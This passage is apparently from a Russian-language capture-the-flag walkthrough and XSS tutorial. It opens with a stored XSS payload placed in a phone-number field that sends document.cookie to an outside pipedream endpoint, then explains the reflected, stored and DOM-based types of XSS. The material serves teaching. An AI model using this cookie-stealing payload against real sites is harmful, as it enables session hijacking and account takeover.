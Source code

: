 `+79117238383"><img src=x onerror=fetch('https://ADDR.x.pipedream.net/?'+document.cookie) />`

где ADDR – адрес вашего endpoint.

8. Вновь закодируем полезную нагрузку и отправим её в запросе, а затем откроем новый заказ, после чего в интерфейсе pipedream появится запрос с флагом.


### **Типы XSS-атак**

Существует **_три основных типа_ XSS-атак**:

- **_Отраженный XSS_**, где вредоносный скрипт происходит из текущего HTTP запроса.
- **_Хранимый XSS_**, где вредоносный скрипт приходит из хранилища данных веб-сайта.
- **_Dom-based XSS_,** где уязвимость существует в клиентском коде, а не в коде сервера.

**Отраженный XSS**
_**Отраженный межсайтовый скриптинг** (**XSS**)_ возникает, когда приложение получает данные в **HTTP**-запросе и включает эти данные непосредственно в ответ небезопасным способом.

 **Хранимый XSS**

_**Сохраненный межсайтовый скриптинг** (скриптинг второго порядка или постоянный XSS)_ возникает, когда приложение получает данные из недоверенного источника и включает эти данные в свои последующие **HTTP**-ответы небезопасным способом.

**Dom-based XSS**

**_XSS-уязвимости, основанные на DOM_**, обычно возникают, когда JavaScript берет данные из подконтрольного злоумышленнику источника, например, URL, и передает их «раковине» (англ. sink), поддерживающей динамическое выполнение кода, например, `eval()` или `innerHTML`. Это позволяет злоумышленникам выполнять вредоносный **JavaScript**, что обычно приводит к взлому учетных записей других пользователей.  
  
Для реализации **XSS**-атаки, основанной на **DOM**, необходимо поместить данные в источник таким образом, чтобы они распространились на поглотитель и вызвали выполнение произвольного **JavaScript**.

